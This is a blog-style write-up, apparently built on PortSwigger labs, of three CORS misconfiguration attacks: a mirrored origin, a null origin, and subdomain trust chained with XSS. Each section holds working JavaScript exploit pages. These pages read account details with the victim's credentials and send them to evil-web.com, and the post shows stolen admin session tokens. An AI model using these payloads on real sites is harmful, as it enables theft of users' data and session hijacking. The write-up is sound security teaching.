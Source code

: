 ```yaml
---
layout: post
title:  "Insecure CORS Policy"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/170120828-3edcc859-fc45-42c3-9fe7-a8cd8b20f682.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

- Cross-Origin Resource Sharing (CORS) is a browser mechanism that allows controlled access to resources outside a given domain.
- It extends and adds flexibility to the same-origin policy (SOP).
- However, it also offers the potential for cross-domain attacks if a website's CORS policy is poorly configured and implemented.

# Table of Contents
1. [CORS with Origin base mirrored](#CORSvulnOriginmirrored)
2. [Origin only allows null origins](#Originallowsnullorigins)
3. [CORS with insecure reliable protocols](#CORSinsecurereliableprotocols)

---
#### 1- CORS vuln with Origin base mirrored <a name="CORSvulnOriginmirrored"></a>
We can see the result of the data in the response. 

![CORSBASIC1](https://user-images.githubusercontent.com/47476901/170133516-05d66e42-aae7-425d-a359-590e27bab824.png)

And the customized origin is reflected, which tells us that it is vulnerable.

`Origin: http://web-testing.com` ✔

![CORSBASIC2](https://user-images.githubusercontent.com/47476901/170130161-41f34362-0e9b-41f3-a551-84ec272c8ea0.png)

We create a custom html so that this data is sent to our malicious page to steal this data.

![CORSBASIC-webmaliciosa](https://user-images.githubusercontent.com/47476901/170120906-757459e0-d8c5-46dc-afab-980136ef0bbe.png)


- Malicious web HTML: 

```html
<html>
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://web.com/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
	location='https://evil-web.com/log?key='+this.responseText;
};
</script>
</html>
```

When the user visits our site it will send the data from that endpoint to our site where it can be seen in the logs of our server.

![CORSBASIC-LOGS](https://user-images.githubusercontent.com/47476901/170130571-b84a03fb-03d3-45ae-ac51-9d6232ff2a33.png)

---

#### 2- Origin only allows null origins <a name="Originallowsnullorigins"></a>
When we modify the Origin it is not reflected in the request.

`Origin: http://web-testing.com` ❌

![CORS-NULL-nullisnotreflected](https://user-images.githubusercontent.com/47476901/170138954-83fb9cda-5285-4061-a8f0-b62b1b7b44ff.png)

We can see that the website only allows Origins that are null.

`Origin: null` ✔

![CORS-NULL-nullisreflected](https://user-images.githubusercontent.com/47476901/170138804-60f28985-7eda-48de-8ef9-c112cabd66d6.png)


- An attacker can use several tricks to generate a cross-origin request containing the `NULL` value in the Origin header.
- This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using an `iframe` cross-origin request in isolated form space:

- Malicious HTML web: 

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener; 
        req.open('get','https://web.com/accountDetails',true); 
        req.withCredentials = true;
        req.send();
		function reqListener() {
		location='https://evil-web.com/log?key='+this.responseText; }; 
    </script>
">
</iframe>
```
With the `location` we are indicating that this response that has the sensitive data is sent as parameters to the attacker's page.
This is the request that the victim user makes from behind when visiting our page.

1- Visit the attacker page and execute the javascript script we have created.

![CORS-NULL-1](https://user-images.githubusercontent.com/47476901/170137775-751b38de-66ea-4e9d-b25b-4270dff06ca3.png)


2- When it reads the location it sends the data

![CORS-NULL-2](https://user-images.githubusercontent.com/47476901/170121090-d15e2f6c-c45e-4e17-888e-f4b58605e167.png)

3- When the user visits our page it will send the data of that endpoint to our page where it can be seen in the logs of our server.
Server logs:

![CORS-NULL-3](https://user-images.githubusercontent.com/47476901/170134706-1013416d-639c-456e-8f71-fce0e65e0744.png)


Url Decode: 
We have:
User, email, apikey and the session (The cookie that is linked to the user).

![CORS-NULL-urldecode](https://user-images.githubusercontent.com/47476901/170134233-30ef7f41-ec13-415a-beeb-40ac5edbaf71.png)

**Filtering administrator data**

Now imagine that the administrator visits our page, we get his data and in that data is included the session cookie that we can use to enter your session
Server logs: 

![CORS-NULL-admin1](https://user-images.githubusercontent.com/47476901/170134825-d9b51872-9f82-49e6-99e1-b5514ab295f8.png)

Url Decode: 

![CORS-NULL-admin2](https://user-images.githubusercontent.com/47476901/170121205-6b456e81-74be-4d67-8422-cde3949111f7.png)

We already have the administrator session

`Admin Session: F1BVIVSoQvTaB8i6HJ25gxtJdvJKweuz`

![CORS-NULL-admin3](https://user-images.githubusercontent.com/47476901/170131836-e1b19346-e368-4f66-b6c3-67a6d13005bc.png)


#### 3- CORS with insecure reliable protocols <a name="CORSinsecurereliableprotocols"></a>

The website only trusts domains that belong to it, i.e. its subdomains.

We do a test with our site in the origin and we get no reflection.

`Origin: http://web-testing.com` ❌

![CORS-SUBDOMAIN1](https://user-images.githubusercontent.com/47476901/170138565-28a77954-350d-4730-bf5a-14b47debfcb9.png)

We tried with a subdomain and it is reflected.

`Origin: http://subdomain.web.com` ✔

![CORS-SUBDOMAIN2](https://user-images.githubusercontent.com/47476901/170134037-257d9b15-b86c-43a4-884c-4ae98a1333a1.png)


We found a valid subdomain

![CORS-SUBDOMAIN3](https://user-images.githubusercontent.com/47476901/170121326-6bf2936e-ecee-4043-b83d-64473fe62467.png)

This subdomain is vulnerable to XSS reflected in the productId parameters, this will help us to execute our script since the page only trusts its subdomains.

**XSS in subdomain**

![CORS-SUBDOMAIN-XSS](https://user-images.githubusercontent.com/47476901/170121381-2735c975-9520-407e-a8b7-626497e0f292.png)

We exploit this vulnerability to exploit cross-domain trust to exfiltrate data to our server.

**Our malicious web**
- HTML malicious web: 

```html
<html>
<script>
document.location="http://subdomain.web.com/?search=<script>var req = new XMLHttpRequest(); req.onload = reqListener;req.open('get','https://web.com/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='https://evil-web.com/log?key='%2b%this.responseText; };%3c/script>"
</script>
</html>
```

When the victim user visits our page he will execute the XSS of the subdomain containing the script that makes a request to the page vulnerable to cors by domain trust and the response of that request is sent to the logs of our server.

1- The user visits our malicious page which contains the main script

![CORS-SUBDOMAIN-FINAL1](https://user-images.githubusercontent.com/47476901/170137871-5a4914d8-0ba0-48a7-9b83-67ca6312bd11.png)

2- The javascript is executed and sends the user to the subdomain and executes xss 

![CORS-SUBDOMAIN-FINAL2](https://user-images.githubusercontent.com/47476901/170138239-bf2dfdf4-9c8b-4f7b-a47a-81aa0a0959aa.png)

3- As the script comes from a trusted domain configured by the cors of the final page, it is executed on the page vulnerable to CORS.

![CORS-SUBDOMAIN-FINAL3](https://user-images.githubusercontent.com/47476901/170138424-4ce4f7e3-1694-4b41-b7fc-f0da7741166d.png)

4- As it was malicious, the response was sent to the attacker's server with all the sensitive data.
Finally the data is sent to the malicious page as we can see with this intercepted request.

![CORS-SUBDOMAIN-FINAL4](https://user-images.githubusercontent.com/47476901/170129209-b81714b9-f65d-49e0-9f39-6eba73ec5fba.png)

5- These data are saved in the logs of our page as an attacker.
In which in this case are sent username, email, apikey and session cookie. 

![CORS-SUBDOMAIN-FINAL5](https://user-images.githubusercontent.com/47476901/170136436-fa4814e9-91a4-49d3-8ddd-41df7230c0d0.png)


6- In the most extreme case as we have explained before, if an administrator visits our page we will have his session cookie.

![CORS-SUBDOMAIN-FINAL6](https://user-images.githubusercontent.com/47476901/170136520-229b7aeb-10d7-4d00-a586-0982f23677ce.png)


7- Using the administrator's session cookie

`Admin Session: clljARot4Lc4KkFHfIylENGZmZbzYwD7`

![CORS-SUBDOMAIN-FINAL7](https://user-images.githubusercontent.com/47476901/170133118-797300b9-4428-467c-a961-80087da6f186.png)


### Conclusion
- This always depends on the response to the endpoint that we point.
- In this example the user's session cookie or email was sent, but this is a particular case because the webs are very different from each other, as the above point says, it all depends on the response of the endpoint. 
- Understand what trust relationships are handled in CORS policies because there may be a CORS vulnerability but it does not have to be offensive. Like everything else, it depends on the context.

- Source Labs: [Portswigger Labs](https://portswigger.net/web-security)
- Credits Image: [Portswigger](https://portswigger.net/web-security)
